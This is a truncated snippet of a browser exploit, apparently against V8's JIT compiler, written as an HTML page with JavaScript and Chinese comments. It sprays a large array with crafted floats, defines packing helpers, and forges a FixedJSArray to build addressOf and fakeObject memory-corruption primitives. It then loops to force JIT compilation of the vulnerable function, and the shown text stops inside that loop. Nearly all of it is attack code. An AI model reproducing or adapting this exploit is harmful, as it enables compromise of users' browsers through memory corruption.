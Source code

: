 ```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;body&gt;
    &lt;script&gt;
function opt(a,b,f1,f2)
`{`
    a[0] = 1.1;
    b[0] = 1.1;
    if (f1)
        a[0] = `{``}`;
    if (f2)
        b[0] = 1.9035980891199164e+185; //这个浮点数在内存里的表示指向了faker[1]，因此，我们可以在faker[1]处开始伪造对象
`}`


//申请一个大的Array，由于V8的compression ptr，其地址低四字节稳定
const faker = new Array(0x10000);
faker.fill(4.765139213524301e-270);

var buf = new ArrayBuffer(0x10000);
var dv = new DataView(buf);
dv.setUint32(0,0xABCDEF78,true);

//将一个32位整数打包位64位浮点数
function p64(val) `{`
   dv.setUint32(0x8,val &amp; 0xFFFFFFFF,true);
   dv.setUint32(0xC,val &gt;&gt; 32,true);
   var float_val = dv.getFloat64(0x8,true);
   return float_val;
`}`

//将两个32位整数打包为一个64位浮点数
function p64(low4,high4) `{`
   dv.setUint32(0x8,low4,true);
   dv.setUint32(0xC,high4,true);
   var float_val = dv.getFloat64(0x8,true);
   return float_val;
`}`

//解包64位浮点数的低四字节
function u64_l(val) `{`
   dv.setFloat64(0x8,val,true);
   return dv.getUint32(0x8,true);
`}`

//解包64位浮点数的高四字节
function u64_h(val) `{`
   dv.setFloat64(0x8,val,true);
   return dv.getUint32(0xC,true);
`}`

//伪造一个FixedJSArray对象用于构造addressOf和fakeObject原语
faker[1] = p64(0x082031cd,0x080426dd);
faker[2] = p64(0x08342135,0x2);
//伪造FixedJSArray的element
faker[3] = p64(0x080424a5,0x2);

//强制触发JIT编译，生成有漏洞的代码
let a;
for (let i = 0; i &lt; 0x200000; i++)
`{`
    a = Array(0);
    opt(a,a,true,false);
```